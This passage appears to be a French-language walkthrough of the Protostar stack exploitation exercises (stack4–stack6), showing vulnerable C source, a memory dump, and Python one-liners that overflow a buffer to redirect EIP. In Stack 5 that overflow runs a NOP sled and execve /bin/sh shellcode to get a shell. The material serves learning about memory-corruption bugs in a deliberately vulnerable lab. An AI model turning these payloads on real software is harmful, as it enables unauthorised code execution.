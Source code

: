 0x50 = 80 soit la taille allouée pour atteindre ebp.
```
(python -c 'print "a"*76 + "\x08\x04\x83\xf4"[::-1]') | ./stack4
code flow successfully changed
```

# Stack 5 #

Il s'agit toujours du même principe, contrôler EIP, lancer un shellcode :)

http://shell-storm.org/shellcode/files/shellcode-827.php

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

En regardant la mémoire : x/20wx $esp, nous voyons :
```
0xbffff7bc:	0xbffff7c4(EIP)	0x90909090	0x90909090	0x90909090 (les Nop * 20)
0xbffff7cc:	0x90909090	0x90909090	0x6850c031(debut du shellcode)	0x68732f2f
```

```
$ (python -c 'print "\x90"*76 + "\xbf\xff\xf7\xc0"[::-1] + "\x90"*20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') > /tmp/file
$ ./stack5 < /tmp/file
$ (cat /tmp/file; cat -) | ./stack5
ls
final0	final1	final2	format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7
```

# Stack 6 #

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }
```